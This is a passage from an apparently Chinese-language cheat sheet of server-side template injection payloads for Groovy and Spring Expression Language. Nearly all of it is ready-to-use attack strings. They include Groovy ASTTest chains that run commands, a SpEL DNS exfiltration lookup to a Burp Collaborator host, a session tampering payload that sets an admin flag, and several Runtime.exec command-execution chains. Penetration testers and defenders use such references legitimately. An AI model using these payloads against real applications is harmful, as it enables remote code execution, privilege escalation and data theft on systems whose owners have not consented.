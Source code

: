 ```groovy
${ @ASTTest(value={assert java.lang.Runtime.getRuntime().exec("whoami")})
def x }
```

或者

```groovy
${ new groovy.lang.GroovyClassLoader().parseClass("@groovy.transform.ASTTest(value={assert java.lang.Runtime.getRuntime().exec(\"calc.exe\")})def x") }
```

---

## Spring 表达式语言

[官方网站](https://docs.spring.io/spring-framework/docs/3.0.x/reference/expressions.html)

> Spring 表达式语言（简称SpEL）是一个强大的表达式语言，支持在运行时查询和操作对象图。语言语法类似于统一EL，但提供了额外的功能，最显著的是方法调用和基本字符串模板功能。

### SpEL - 基本注入

```java
${7*7}
${'patt'.toString().replace('a', 'x')}
```

### SpEL - DNS窃取

DNS查找

```java
${"".getClass().forName("java.net.InetAddress").getMethod("getByName","".getClass()).invoke("","xxxxxxxxxxxxxx.burpcollaborator.net")}
```

### SpEL - 会话属性

修改会话属性

```java
${pageContext.request.getSession().setAttribute("admin",true)}
```

### SpEL - 命令执行

- 使用`java.lang.Runtime`的方法 #1 - 通过JavaClass访问

    ```java
    ${T(java.lang.Runtime).getRuntime().exec("COMMAND_HERE")}
    ```

- 使用`java.lang.Runtime`的方法 #2

    ```java
    #{session.setAttribute("rtc","".getClass().forName("java.lang.Runtime").getDeclaredConstructors()[0])}
    #{session.getAttribute("rtc").setAccessible(true)}
    #{session.getAttribute("rtc").getRuntime().exec("/bin/bash -c whoami")}
    ```
